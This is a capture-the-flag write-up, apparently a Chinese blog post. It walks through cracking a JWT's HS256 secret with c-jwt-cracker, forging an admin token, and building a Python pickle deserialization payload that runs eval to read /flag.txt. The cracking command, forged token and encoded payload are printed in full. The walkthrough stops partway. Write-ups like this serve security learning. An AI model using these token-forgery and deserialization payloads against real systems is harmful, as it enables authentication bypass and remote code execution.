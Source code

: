 ```plain
把数据放到解密平台https://jwt.io/中解密，发现用户名是xiaodise
```

![1647940595468-73ac63f9-e24c-4ef7-900f-418d3bfc375e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132841725-1075496927.png)

```plain
必须加上秘钥，再给修改的。需要进行爆破
用到脚本c-jwt-cracker
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InhpYW9kaSJ9.UHCykJtUJ4jeYAWAYFU73QiNhn7mZLUHE7kKo4oJpK8

解密出来： 1Kun
进行重组
```

![1647941423158-503e56ed-383f-44b4-8d33-77b51a331266.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132842440-1555604857.png)

```plain
得到JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo

修改进入后，查看源代码
```

![1647941659986-ff2405f1-cc93-4418-9175-32de8bf5a404.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132842190-515648900.png)

```plain
下载源码后，进行全局搜索关键函数render
```

![1647942485510-6be92402-5eda-49ca-b3cd-093fba992ed3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132842378-1007290704.png)

```plain
发现反序列化，然后构造payload：
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a

这个是用python2写的，也要看网站是什么搭建的，要用相对应的版本（审查元素，或者对应函数使用）

用python2去运行，生成payload：c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
继续看谁调用了这个函数，在__init__文件中
```

![1647943601058-d7eb58cd-7d98-43aa-b968-ec121469bcd2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132842015-823294068.png)
